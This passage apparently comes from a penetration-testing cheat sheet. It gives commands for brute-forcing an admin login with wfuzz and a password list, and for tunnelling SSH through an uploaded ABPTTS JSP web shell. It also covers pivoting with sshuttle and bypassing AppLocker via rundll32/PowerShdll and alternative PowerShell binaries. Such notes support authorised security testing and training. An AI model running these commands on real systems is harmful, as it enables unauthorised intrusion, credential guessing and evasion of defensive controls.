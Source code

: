 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
![regeorge3](https://user-images.githubusercontent.com/7115563/33883422-017021fe-df3c-11e7-8f99-f02de5084c02.png)

Reference: https://sensepost.com/discover/tools/reGeorg/

 <a name="abptts"><b> 2. ABBTTS </b>
  
Upload File

![abbtts5](https://user-images.githubusercontent.com/7115563/33883774-6d249ffa-df3d-11e7-9f3f-68bf1e70465f.png)

Config proxychains and create the tunnel

```python abpttsclient.py -c tomcat_walkthrough/config.txt -u http://192.168.1.128/abptts.jsp -f 127.0.0.1:22222/127.0.0.1:22```

Usage

```ssh -p 22222 user@127.0.0.1```

![abbtts7](https://user-images.githubusercontent.com/7115563/33883891-dc2f3c70-df3d-11e7-84e9-ebd9eab9ebee.png)

Reference: https://github.com/nccgroup/ABPTTS



<a name="poor"></a><h3> Man's Poor VPN </h3>

Traffic forward over SSH without needing to ```ssh -D <port>```

<pre>sshuttle -vr user@192.168.207.57 180.46.0.0/16</pre>

![shuttle2](https://user-images.githubusercontent.com/7115563/34785498-a0b5c8c0-f631-11e7-8f3d-75e0ade96275.png)

Proof:

![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png)

Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/



<a name="windowsad"></a><h2> Windows AD Environment </h2>

<a name="applocker"></a><h3> Bypass Applocker </h3>

<b>1. rundll32</b>

```rundll32.exe PowerShdll.dll,main```

![applocker](https://user-images.githubusercontent.com/7115563/34455568-dfe7d7c6-ed81-11e7-9869-de2d4e92f3aa.png)
  
  Reference: https://github.com/p3nt4/PowerShdll
  
<b>2. Alternative powershell files</b>

![applocker2](https://user-images.githubusercontent.com/7115563/34455569-e0136c6a-ed81-11e7-9b0e-127ae9d395e0.png)
  
  ```C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise```
```